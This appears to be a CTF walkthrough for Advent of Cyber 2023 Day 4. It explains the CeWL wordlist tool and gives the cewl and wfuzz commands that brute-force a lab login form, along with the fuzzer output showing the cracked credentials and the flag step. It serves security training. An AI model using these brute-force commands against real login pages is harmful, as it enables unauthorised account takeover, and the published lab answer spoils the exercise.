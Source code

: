 # Day 4

![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/87565812-f06a-4f09-8433-01c6148f9d83)

## CeWL: Custom Wordlist Generator

Many tools rely on pre-defined lists or common dictionary attacks, but CeWL stands out for the following reasons:

      1. **Target-specific wordlists:**
         - CeWL crafts wordlists specifically from the content of a targeted website. The generated list is tailored to the vocabulary and terminology used on that site, increasing the efficiency of brute-forcing tasks.
      
      2. **Depth of search:**
         - CeWL can spider a website to a specified depth, extracting words not just from one page but also from linked pages up to the set depth.
      
      3. **Customizable outputs:**
         - CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This customization is advantageous for targeting specific types of credentials or vulnerabilities.
      
      4. **Built-in features:**
         - While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
      
      5. **Efficiency:**
         - Given its customizability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
      
      6. **Integration with other tools:**
         - Being command-line based, CeWL can be seamlessly integrated into automated workflows, and its outputs can be directly fed into other cybersecurity tools.
      
      7. **Actively maintained:**
         - CeWL is actively maintained and updated, staying relevant and compatible with contemporary security needs and challenges.


## Day 4 Task:

### 1. What is the correct username and password combination? Format username: password

With CewlGenerate a list of Usernames with the Command —

    cewl -d 0 -m 5 -w usernames.txt http://MACHINE-IP/team.php — lowercase
   
Again with CewlGenerate a list of Passwords with the Command —

    cewl -d 2 -m 5 -w passwords.txt http://MACHINE-IP —-with-numbers
   
Now bruteforce the Credentials using wfuzz with the command —

    wfuzz -c -z file,usernames.txt -z file,passwords.txt — hs “Please enter the correct credentials” -u http://MACHINE-IP/login.php -d “username=FUZZ&password=FUZ2Z”

```
╰─ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.1.59/login.php -d "username=FUZZ&password=FUZ2Z"      ─╯

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.1.59/login.php
Total requests: 9324

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                     
=====================================================================

000006292:   302        118 L    297 W      4442 Ch     "isaias - Happiness"                                                                                        

Total time: 0
Processed Requests: 9324
Filtered Requests: 9323
Requests/sec.: 0


```

### 2. What is the Flag?

Log in and click on the Email with the Subject “Confidential Message”


![image](https://github.com/W4W1R3/Advent-Of-Cyber-2023-Walkthroughs/assets/57982315/5254bbb9-a93d-4fee-9d7f-a20317ea8354)


